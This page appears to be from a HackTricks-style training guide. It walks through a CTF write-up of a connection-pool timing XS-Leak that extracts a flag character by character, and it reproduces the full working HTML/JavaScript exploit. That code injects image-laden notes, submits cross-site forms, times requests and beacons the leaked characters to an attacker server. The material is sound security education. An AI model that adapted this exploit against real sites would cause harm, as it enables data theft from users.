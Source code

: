# Connection Pool by Destination Example

{{#include ../../banners/hacktricks-training.md}}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Let's see how this exploit work:

- The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
- Then, the attacker will **remove** the **note** with index 1.
- Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.
  - If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

> [!TIP]
> Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code

```html
<html>
  <head>
    <script>
      const SITE_URL = "https://safelist.ctf.sekai.team/"
      const PING_URL = "https://myserver"
      function timeScript() {
        return new Promise((resolve) => {
          var x = document.createElement("script")
          x.src =
            "https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
          var start = Date.now()
          x.onerror = () => {
            console.log(`Time: ${Date.now() - start}`) //Time request
            resolve(Date.now() - start)
            x.remove()
          }
          document.body.appendChild(x)
        })
      }

      add_note = async (note) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "create"
        x.method = "POST"
        x.target = "xxx"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "text"
        i.value = note
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      remove_note = async (note_id) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "remove"
        x.method = "POST"
        x.target = "_blank"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "index"
        i.value = note_id
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
      // }zyxwvutsrqponmlkjihgfedcba_
      const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
      var prefix = "SEKAI{xsleakyay"
      const TIMEOUT = 500
      async function checkLetter(letter) {
        // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
        // Depending whether we found flag's letter it will either load the images or not.
        // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
        const payload =
          `${prefix}${letter}` +
          Array.from(Array(78))
            .map((e, i) => `<img/src=/js/purify.js?${i}>`)
            .join("")
        await add_note(payload)
        await sleep(TIMEOUT)
        await timeScript()
        await remove_note(1) //Now, only the note with the flag or with the injection existsh
        await sleep(TIMEOUT)
        const time = await timeScript() //Find out how much a request to the same origin takes
        navigator.sendBeacon(PING_URL, [letter, time])
        if (time > 100) {
          return 1
        }
        return 0
      }
      window.onload = async () => {
        navigator.sendBeacon(PING_URL, "start")
        // doesnt work because we are removing flag after success.
        // while(1){
        for (const letter of alphabet) {
          if (await checkLetter(letter)) {
            prefix += letter
            navigator.sendBeacon(PING_URL, prefix)
            break
          }
        }
        // }
      }
    </script>
  </head>
  <body></body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}



